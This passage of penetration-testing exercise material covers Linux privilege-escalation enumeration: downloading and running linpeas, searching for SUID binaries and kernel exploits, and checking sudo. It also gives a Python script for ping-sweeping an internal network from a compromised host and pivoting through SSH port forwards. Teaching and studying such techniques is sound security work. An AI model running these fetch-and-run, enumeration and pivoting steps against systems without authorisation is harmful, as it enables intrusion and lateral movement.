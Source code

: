 ### Exercise 5.2: Privilege Escalation
```bash
# Enumeration scripts
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

# Manual enumeration
# SUID binaries
find / -perm -u=s -type f 2>/dev/null

# Writable directories
find / -writable -type d 2>/dev/null

# Kernel exploits
uname -a
searchsploit linux kernel 3.13

# Sudo misconfiguration
sudo -l
```

### Exercise 5.3: Lateral Movement
```python
#!/usr/bin/env python3
# Network pivoting script

import subprocess
import ipaddress

def discover_internal_network(interface):
    """Discover internal network from compromised host"""
    # Get network information
    cmd = f"ip addr show {interface} | grep inet | awk '{{print $2}}'"
    result = subprocess.run(cmd, shell=True, capture_output=True, text=True)
    
    network = ipaddress.ip_network(result.stdout.strip(), strict=False)
    
    # Scan internal network
    live_hosts = []
    for ip in network.hosts():
        cmd = f"ping -c 1 -W 1 {ip}"
        result = subprocess.run(cmd, shell=True, capture_output=True)
        if result.returncode == 0:
            live_hosts.append(str(ip))
    
    return live_hosts

# Port forwarding for pivoting
def setup_port_forward(local_port, remote_host, remote_port):
    cmd = f"ssh -L {local_port}:{remote_host}:{remote_port} -N -f user@pivot-host"
    subprocess.run(cmd, shell=True)
```
